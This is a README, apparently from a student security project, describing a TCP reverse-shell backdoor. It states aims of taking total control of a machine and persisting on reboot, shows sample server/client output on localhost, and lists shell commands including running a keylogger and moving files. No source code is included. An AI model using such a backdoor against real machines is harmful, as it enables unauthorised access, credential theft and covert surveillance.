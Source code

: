 <img src="https://d2z6c3c3r6k4bx.cloudfront.net/uploads/event/logo/1061432/a991d937097e8176adf1ea7196beb80f.png">
<hr>

### Backdoor Project

This project consist in create a bind between two machines and take total control like a shadow. This program shows a connection Client / Server into a Network Enterprise. In any Network connection only needs an input door to scale until to get relevant information. However, a Backdoor can create multiple connections and it can take possession of assets more important of an enterprise and so the attacker can go and go out anytime.<br>

But in this project, the connection will be only one to one (client / server) with a tcp protocol and introduces malware to get credentials.<br><br>

### Objetive

<hr>
1. Take total control of machine<br>
2. Persisten on Reboot<br>


### Specifer

<hr>

### RUN Backdoor:

<hr>

On Server machine:

```
$ ./server_shell
[+] Listening for Incommig Connections...

```

On Client machine:

```
$ ./reverse_shell
```

Server and Client connected

```
$ ./server_shell
[+] Listening for Incommig Connections...
[+] Connection established from: 
[+] Address: 127.0.0.1
[+] port: 46020
[+] Connected
Linux@127.0.0.1#
```

### Commands Shell

```
$ cd      --> Get current directory
$ curr    --> Current directory
$ run     --> Execute a program
$ upload  --> Upload a File to Client
$ downlod --> Downlod a File to Server
$ exit    --> Finish shell
```

```
Linux@127.0.0.1# cd ../            # Before directory
```

```
Linux@127.0.0.1# curr              # Current directory
/home/ubuntu/
```

```
Linux@127.0.0.1# run keylogger     # Program in Linux/Windows
```

```
Linux@127.0.0.1# upload [File]
```

```
Linux@127.0.0.1# download [File]
```

```
Linux@127.0.0.1# exit
$
```

* And basic commands of Linux and Windows terminal
<br>

### Contributors
<hr>
Giovanny Ortegon - 934@holbertonschool.com<br>
Joseph Delgadillo - Author<br>

### Bibligraphy

<hr>
Master Ethical Hacking with Python - Joseph Delgadillo<br>
Hands-on Network programming with C - Lewis Van Winkle<br>
Penetration testing with Shellcode - Hamza Megahed<br>
Pentester Academy - Vivek Ramachandran</li>
<hr>
Copyright &copy;2020 - Giovanny Ortegon - twitter: <a href="https://twitter.com/__sklgio__">@__sklgio__</a>
